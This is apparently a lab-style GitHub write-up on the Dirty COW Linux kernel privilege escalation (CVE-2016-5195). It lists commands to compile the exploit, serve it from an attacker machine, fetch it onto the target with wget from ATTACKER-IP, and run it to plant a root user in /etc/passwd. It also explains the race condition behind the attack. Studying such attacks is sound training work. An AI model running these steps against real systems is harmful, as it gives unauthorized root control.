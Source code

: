 # 🐮 Dirty COW Exploit Write-up

**Target OS:** Linux (vulnerable kernel)

**Exploit:** Dirty COW (CVE-2016-5195)

## 📌 Overview
**Dirty COW** (CVE-2016-5195) is a privilege escalation vulnerability in the Linux kernel. It leverages a **race condition** in the kernel’s handling of the **Copy-On-Write** (COW) mechanism for memory-mapped files.

Using this exploit, a local attacker can **overwrite read-only files** and gain **root privileges** by modifying sensitive files like **`/etc/passwd`**.

## 🚀 Exploit Steps

### ⚡ On the Attacker Machine

1️⃣ **Navigate to the exploit source directory:**
```bash
cd /path/to/dirtycow
```

2️⃣ Compile the exploit:

```bash
gcc -m32 -pthread dirty.c -o cowroot -lcrypt -static
```

✅ Explanation of flags:

   - `m32:` Build for 32-bit systems (often needed).

   - `pthread:` Use pthreads for the exploit’s race condition.

   - `lcrypt:` Use the crypt library for password hashing.

   - `static:` Build a static binary (no external dependencies).

**Serve the exploit binary (`cowroot`) using Python’s HTTP server:**

```bash
python3 -m http.server 9999

```

### ⚡ On the Target Machine

1️⃣ **Navigate to a writable directory:**

```bash
cd /tmp
```

2️⃣ **Download the exploit from the attacker machine:**

```bash
wget http://ATTACKER-IP:9999/cowroot
```

3️⃣ **Make the exploit executable:**

```bash
chmod +x cowroot
```

4️⃣ **Run the exploit:**

```bash
./cowroot
```

✅ **`If successful, it will add a new root-level user (usually firefart).`**

5️⃣ **Switch to the new user:**

```bash
su firefart
```

## 🐧 How it Works
✅ **The exploit:**

  - Maps /etc/passwd in memory.

  - Calls madvise() repeatedly to invalidate the memory pages.

  - Simultaneously writes to the mapped memory via /proc/self/mem.

  - The race condition in the kernel lets the write happen, modifying /etc/passwd despite its read-only status.

✅ **This grants root access by injecting a new root user entry in the real `/etc/passwd.`**

## ⚠️ Impact
  - Local privilege escalation → attacker gains full root control.

  - Works on many older Linux kernel versions (pre-4.8.3).

